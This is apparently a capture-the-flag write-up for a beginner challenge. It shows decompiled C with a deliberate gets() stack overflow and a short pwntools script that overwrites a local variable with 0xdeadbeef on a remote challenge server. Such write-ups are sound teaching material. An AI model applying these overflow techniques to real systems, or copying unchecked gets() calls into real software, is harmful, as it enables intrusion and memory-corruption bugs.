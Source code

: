 Opened the binary file in ghidra to find the following functions (some types and variables are renamed for better understanding):
```c

void anyaforger(void)
{
  printf("BDSEC{find_the_flag_in_the_server}");
  exit(0);
}

void vuln(void)
{
  char buff [32];
  uint secret;
  
  secret = 0x12345678;
  printf("Enter the secret word: ");
  fflush(_stdout);
  gets(buff);
  if (secret == 0xdeadbeef) {
    anyaforger();
    fflush(_stdout);
    return;
  }
  puts("Sorry, that\'s not the secret word.");
  exit(1);
}

int main(void)
{
  banner(&stack0x00000004);
  puts(
      "she is a telepath whose abilities were created in an experiment conducted by an unknown organ ization "
      );
  fflush(_stdout);
  vuln();
  return 0;
}
```

As we can see, all we have to do is somehow get `secret` to equal `0xdeadbeef` and we will get the flag. The problem is that `secret` is a local variable and we can't access it directly. However, if we look at the stack frame of the `vuln` function, we can see that `secret` is located right after `buff`:

![stack frame](vuln-stack-frame.png)

Now if we look at `vuln`, we can see that it calls `gets` on `buff` without any bounds checking. This means that we can overflow `buff` and overwrite `secret` with `0xdeadbeef`. To do this, we can use the following python script:
```python
from pwn import *

# io = process('./beef')
io = remote('139.144.184.150', 31337)
io.recvuntil(b'Enter the secret word: ')
io.sendline(b'A'*32 + p64(0xdeadbeef))
print(io.recvall().decode())
```
